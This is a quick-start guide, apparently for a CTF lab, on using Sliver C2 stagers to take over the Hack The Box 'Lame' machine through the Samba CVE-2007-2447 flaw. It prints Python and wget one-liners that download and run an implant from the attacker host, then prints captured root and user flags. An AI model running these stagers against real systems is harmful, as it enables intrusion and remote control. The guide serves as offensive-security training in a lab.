 # HTB Lame + Sliver C2 Quick Start

**Understand Sliver Stager Usage in 5 Minutes**

## Prerequisites
- wish and Sliver C2 are running
- Connected to HTB VPN (attacker IP: 10.10.14.2)

## Step 1: Start Stager (1 minute)

```bash
$ wish
> /sliver stager start --host 10.10.14.2
```

**Output:**
```
🎯 Stager listener started: stg-abc123
📡 URL: http://10.10.14.2:54321

Default Stagers:

Python 2 (HTB Lame, old Linux environments):
╭─────────────────────────────────────────────────────────────────────╮
│ python -c "import urllib2,platform;o=platform.system().lower();     │
│ a='64' if '64' in platform.machine() else '32';exec(urllib2.urlopen │
│ ('http://10.10.14.2:54321/s?o='+o+'&a='+a).read())"               │
╰─────────────────────────────────────────────────────────────────────╯

Python 3 (modern environments):
╭─────────────────────────────────────────────────────────────────────╮
│ python3 -c "import urllib.request,platform;o=platform.system()      │
│ .lower();a='64' if '64' in platform.machine() else '32';            │
│ exec(urllib.request.urlopen('http://10.10.14.2:54321/s?o='+o+'&a='  │
│ +a).read())"                                                         │
╰─────────────────────────────────────────────────────────────────────╯
```

Copy the appropriate Python one-liner based on your environment. For HTB Lame, use the Python 2 version.

## Step 2: Deploy Stager to HTB Lame (3 minutes)

```bash
# Use Samba vulnerability (CVE-2007-2447)
> exploit samba on 10.10.10.3

# Or manually inject command
> execute on 10.10.10.3: <Python one-liner copied above>
```

### Troubleshooting

#### If Fallback Script is Returned

If a fallback script (~500 bytes) is returned instead of an actual Sliver implant:
- Check connection to Sliver C2 server: `/sliver status`
- Verify implant generation permissions
- Check logs for error messages

#### If Stager Doesn't Work

In older environments like HTB Lame, the stager may hang. Try these alternatives:

1. **Minimal stager (no OS detection, Python 2)**
   ```bash
   python -c "import urllib2;exec(urllib2.urlopen('http://10.10.14.2:54321/s?o=linux&a=32').read())"
   ```

2. **Debug version (detailed error information)**
   ```bash
   /sliver stager create stg-abc123 --type debug
   ```

3. **Manual download and execute**
   ```bash
   wget http://10.10.14.2:54321/implant/stager_linux_386 -O /tmp/s && chmod +x /tmp/s && /tmp/s
   ```

#### ⚠️ HTB Lame Download Issues

In HTB Lame's older network environment, 14-16MB implant downloads may stall at 28KB.

**Recommended Workarounds:**

1. **Monitor download status**
   ```bash
   # In another terminal
   > /sliver stager status
   ```

2. **Test with small files**
   ```bash
   # Download a small file on HTB Lame to check network
   wget http://10.10.14.2:54321/s -O /tmp/test
   ```

3. **Alternative methods**
   - Transfer via SCP (if SSH access available)
   - Transfer using netcat
   - Transfer as Base64-encoded text file

## Step 3: Execute Commands (1 minute)

Once Sliver session is established:

```bash
# Check implants
> /sliver implants
┌─────────┬────────────┬──────────────┬────────────┬──────┬────────┐─
│ ID      │ Name       │ Remote       │ Platform   │ User │ Status  │
├─────────┼────────────┼──────────────┼────────────┼──────┼─────────┤
│ abc-123 │ FANCY_TIGER│ 10.10.10.3   │ linux/386  │ root │ Active  │
└─────────┴────────────┴──────────────┴────────────┴──────┴─────────┘

# Get flags
> /sliver execute FANCY_TIGER cat /root/root.txt
92caac3be140ef409e45721348a4e9df

> /sliver execute FANCY_TIGER cat /home/makis/user.txt  
69454a937d94f5f0225ea00acd2e84c5
```

## Complete! 🎉

In just 3 steps, you've obtained root on HTB Lame using Sliver C2.

### Want to Learn More?

- Different stager types (Bash, PowerShell): `/sliver stager create <id> --type bash`
- List active listeners: `/sliver stager list`
- Stop listener: `/sliver stager stop <id>`
- [Detailed guide here](HTB-Lame-Sliver-Guide-Detailed.md)